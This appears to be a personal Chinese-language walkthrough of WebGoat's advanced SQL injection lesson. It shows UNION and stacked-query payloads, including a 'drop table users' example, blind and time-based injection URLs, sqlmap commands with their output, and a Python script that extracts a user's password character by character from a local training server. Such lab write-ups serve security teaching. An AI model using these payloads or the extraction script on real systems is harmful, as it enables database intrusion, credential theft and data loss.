 ## 0x01 Concept & Goals
高级SQL注入  
组合注入、盲注  

## 0x02 Special
一些特殊的东西  
Special Characters  
```1
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```
```2
;        allows query chaining

Example: Select * from users; drop table users;
```
```3
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```
Special Statements  
1. union  
2. join  


## 0x03 Try It! Pulling data from other tables
已经给出了要union查询的表的名字和结构，搞清楚本来的表的大致字段就可以了  
在SQL Injection里知道有一个用户为Smith，先看看正常查询的输出：  
```
USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
102, John, Smith, 2435600002222, MC, , 0,
102, John, Smith, 4352209902222, AMEX, , 0, 
```
从输出看，表字段应该是7，可以用order by验证：  
输入`Smith' order by 7 -- -`,输出正确  
输入`Smith' order by 8 -- -`,输出出错，显示"invalid ORDER BY expression"   
构造输入：  
```
Smith' union select userid, user_name, password, null, null, null, null from user_system_data -- -
```
没有值的设为null是为了避免数据类型不匹配的问题  
我的解决方法比较麻烦，其实有简单的方法，参考这个网址：https://blog.csdn.net/u013553529/article/details/82794542  
堆叠查询、union注入，反正没有我那么笨就对了  
堆叠查询：`'; select * from user_system_data --`  
dave的密码是passW0rD  


## 0x04 Blind SQL Injection
介绍报错盲注和时间盲注，相关语句如下：  
```
https://my-shop.com?article=4 AND 1=1
https://my-shop.com?article=4 AND 1=2
https://my-shop.com?article=4 AND substring(database_version(),1,1) = 2


article = 4; sleep(10) --
```


## 0x05 综合题
经过测试，发现注册时的用户名处存在布尔盲注，将如下内容保存为request.txt,开始用sqlmap
：  
```
PUT http://127.0.0.1:8080/WebGoat/SqlInjection/challenge HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://127.0.0.1:8080/WebGoat/start.mvc
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 84
Cookie: JSESSIONID=61E3648728C46675C274BC0980B448BE
Connection: keep-alive
Host: 127.0.0.1:8080

username_reg=hello&email_reg=1%40q.com&password_reg=world&confirm_password_reg=world
```
要注意的是Cookie有时限  
执行如下命令：  
```sh
# 探测数据库类型，结果为：HSQLDB，并且建议加--no-cast参数
sqlmap -r request.txt -p username_reg

# 查数据库，获取3个数据库名：
# [*] INFORMATION_SCHEMA
# [*] PUBLIC
# [*] SYSTEM_LOBS
sqlmap -r request.txt -p username_reg --dbs --no-cast

# 查PUBLIC数据库，选择爆破，线程选最大的10，得到6张表
# Database: PUBLIC
# [6 tables]
# +--------------+
# | auth         |
# | employee     |
# | roles        |
# | servers      |
# | transactions |
# | user_data    |
# +--------------+
sqlmap -r request.txt -p username_reg -D PUBLIC --tables --no-cast

# 获取user_data表的字段
# Database: PUBLIC
# Table: USER_DATA
# [10 columns]
# +-------------+-------------+
# | Column      | Type        |
# +-------------+-------------+
# | cc_number   | non-numeric |
# | cc_type     | non-numeric |
# | cookie      | non-numeric |
# | email       | non-numeric |
# | first_name  | non-numeric |
# | last_name   | non-numeric |
# | login_count | numeric     |
# | password    | non-numeric |
# | today       | numeric     |
# | userid      | numeric     |
# +-------------+-------------+
sqlmap -r request.txt -p username_reg -D PUBLIC -T user_data --columns --no-cast

# 最后一步出错了，，，
```


通过看源码发现，自己连正确的表都没有注出来，sqlmap就不指望了，写脚本跑吧    
```python
# coding:utf8

"""
True: already exists please try to register with a different username.
False: created, please proceed to the login page.

我解这个问题其实是在蒙，用sqlmap爆破发现register的username_reg有bool盲注，然后用sqlmap一通，知道一个表中有password字段，然后sqlmap再往下就出错了，没办法，写脚本吧，已经知道了字段，就直接盲注字段，老是不对，看源码才知道用户名原来是tom，小写的t，这样就得到密码了

但其实看源码之后才发现，sqlmap搞出来的表和我要注入的表是不一样的，就这样吧，误打误撞出来了

源码位置: WebGoat/webgoat-lessons/sql-injection/src/main/java/org/owasp/webgoat/plugin/advanced/SqlInjectionChallenge.java
"""

import requests


def get_status(content):
    if 'already exists please try to register with a different username.' in content:
        return 1
    elif 'created, please proceed to the login page.' in content:
        return 0
    else:
        return -1


url = 'http://127.0.0.1:8080/WebGoat/SqlInjection/challenge'

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Referer': 'http://127.0.0.1:8080/WebGoat/start.mvc',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Length': '85',
    'Cookie': 'JSESSIONID=F15EA9332EAE5CFBD726887EA270BC9C',
    'Connection': 'keep-alive',
    'Host': '127.0.0.1:8080',
    }

data = {
    'username_reg': 'a',
    'email_reg': 'a@a.com',
    'password_reg': 'a',
    'confirm_password_reg': 'a',
}

s = requests.session()

tom_pass_len = 0
for i in range(2, 100):
    data['username_reg'] = "tom' AND LENGTH(password)=%d AND '1'='1" % i
    res = s.put(url, headers=headers, data=data)
    if get_status(res.content) == -1:
        print 'Error'
        print res.content
        exit(0)
    elif get_status(res.content) == 0:
        continue
    elif get_status(res.content) == 1:
        print 'password len: %d' % i
        tom_pass_len = i
        break

tom_password = ['*'] * tom_pass_len
common_chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
for i in range(1, tom_pass_len+1):
    for c in common_chars:
        data['username_reg'] = "tom' AND SUBSTRING(password, %d, 1)='%s" % (i, c)
        res = s.put(url, headers=headers, data=data)
        if get_status(res.content) == -1:
            print 'Error'
            print res.content
            exit(0)
        elif get_status(res.content) == 0:
            continue
        elif get_status(res.content) == 1:
            print c
            tom_password[i-1] = c
            break

print 'tom_password: ', ''.join(tom_password)
```
参考： https://klarsen.net/infosec/owasp-webgoat-sql-advanced-lesson/  